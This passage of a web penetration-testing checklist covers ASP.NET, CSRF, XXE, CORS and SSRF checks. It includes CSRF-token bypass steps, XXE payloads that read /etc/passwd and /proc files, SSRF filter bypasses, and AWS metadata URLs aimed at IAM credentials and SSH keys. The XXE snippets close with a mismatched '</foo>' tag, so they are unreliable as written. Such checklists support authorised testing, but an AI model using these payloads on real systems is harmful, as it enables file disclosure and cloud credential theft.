 #### **20. ASP.NET Application Testing**
- [ ] **Check If ASP.net ViewState Parameter Is Encrypted or Not**
- [ ] **Check If Any ASP Configuration Is Disclosed Publicly or Not**
- [ ] **Check If Error Codes Reveal the Version of ASP.NET Used in the Application**

#### **21. Cross-Site Request Forgery (CSRF) Testing**
- [ ] **Re-Use Anti-CSRF Token for CSRF Attack**
- [ ] **Check If Token Is Validated on Server Side or Not**
- [ ] **Check If Token Validation for Full Length or Partial Length**
- [ ] **Create Few Dummy Accounts and Compare the CSRF Token for All Those Accounts**
- [ ] **Bypass CSRF Token Using 2 Input Type Fields in For Updating User's Information in the Same HTML File**
- [ ] **Convert POST Request to GET and Remove _csrf (Anti-CSRF Token) to Bypass the CSRF Protection**
- [ ] **Check If the Value You Are Trying to Change Is Passed in Multiple Parameters Such as Cookie, HTTP Headers Along With GET and POST Request**

#### **22. XML Injection Testing**
- [ ] **Change the Content Type to Text/XML Then Insert Below Code. Check Via Repeater**
  - [ ] **`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE chintan [<!ELEMENT chintan ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]><chintan>&xxe;</foo>`**
  - [ ] **`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE tushar [<!ELEMENT tushar ANY ><!ENTITY xxe SYSTEM "file:///etc/hosts" >]><tushar>&xxe;</foo>`**
  - [ ] **`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE tushar [<!ELEMENT tushar ANY ><!ENTITY xxe SYSTEM "file:///proc/self/cmdline" >]><tushar>&xxe;</foo>`**
  - [ ] **`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE tushar [<!ELEMENT tushar ANY ><!ENTITY xxe SYSTEM "file:///proc/version" >]><tushar>&xxe;</foo>`**
- [ ] **Blind XXE with Out-of-Band Interaction**

#### **23. Cross-Origin Resource Sharing (CORS)**
- [ ] **Errors Parsing Origin Headers**
- [ ] **Whitelisted Null Origin Value**

#### **24. Server-Side Request Forgery (SSRF)**
- [ ] **Try Basic Localhost Payloads**
- [ ] **Bypassing Filters**
  - [ ] **Bypass Using HTTPS**
  - [ ] **Bypass with [::]**
  - [ ] **Bypass with a Domain Redirection**
  - [ ] **Bypass Using a Decimal IP Location**
  - [ ] **Bypass Using IPv6/IPv4 Address Embedding**
  - [ ] **Bypass Using Malformed URLs**
  - [ ] **Bypass Using Rare Address (Short-Hand IP Addresses by Dropping the Zeros)**
  - [ ] **Bypass Using Enclosed Alphanumerics**
- [ ] **Cloud Instances**
  - [ ] **AWS**
    - [ ] **http://instance-data**
    - [ ] **http://169.254.169.254**
    - [ ] **http://169.254.169.254/latest/user-data**
    - [ ] **http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]**
    - [ ] **http://169.254.169.254/latest/meta-data/**
    - [ ] **http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]**
    - [ ] **http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance**
    - [ ] **http://169.254.169.254/latest/meta-data/ami-id**
    - [ ] **http://169.254.169.254/latest/meta-data/reservation-id**
    - [ ] **http://169.254.169.254/latest/meta-data/hostname**
    - [ ] **http://169.254.169.254/latest/meta-data/public-keys/**
    - [ ] **http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key**
    - [ ] **http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key**
    - [ ] **http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy**
    - [ ] **http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access**
    - [ ] **http://169.254.169.254/latest/dynamic/instance-identity/document**
  - [ ] **Google Cloud**